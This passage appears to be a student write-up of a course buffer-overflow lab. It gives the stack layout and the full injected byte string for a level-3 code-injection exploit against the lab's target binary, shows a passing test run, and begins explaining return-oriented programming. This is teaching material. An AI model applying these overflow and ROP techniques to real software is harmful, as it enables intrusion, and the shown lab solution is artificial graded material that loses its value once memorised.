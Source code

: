 |  Stack Structure      | Size     |
| --------------------- | -------- |
| cookie string         | 9 bytes (8 bytes + '\0'), in stack frame for `test`  |
| address of `mov` (or address of `touch3` after push below) | 8 bytes, this overwrites original return address  |
| data                  | 27 bytes (this, combined with the instructions below, fill up the 40-byte `getbuf` frame) |
| `ret`                 | 1 byte   |
| `push 0x4018fa`       | 5 bytes  |
| `mov 0x5561dc97,%rdi` | 7 bytes  |

</center>

<br>

Test:

```
$ ./hex2raw < ctarget.l3.exploit.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## RTARGET (Phases 4 and 5)

For the RTARGET phases, it is much more difficult to perform code-injection attacks for two techniques are implemented to thwart such attacks:

- *Randomization*: stack positions differ from one run to another, so we cannot determine where the injected code will be located.
- *Nonexecutable marker*: the stack is marked as nonexecutable, so even if we could locate our injected code, we would just get a segmentation fault.

In this case, we could use **return-oriented programming (ROP)**.

<br>

### Return-Oriented Programming (ROP)

In return-oriented programming, we identify byte sequences within the existing program that consist of one or more instructions followed by the instruction `ret`. Such a segment is referred to as a **gadget**. What we need to do is to place the addresses of these gadgets onto the stack, so that when one `ret` instruction is hit, we move on to the next gadget. In this way, we can combine various gadget into a program that would perform what we want.
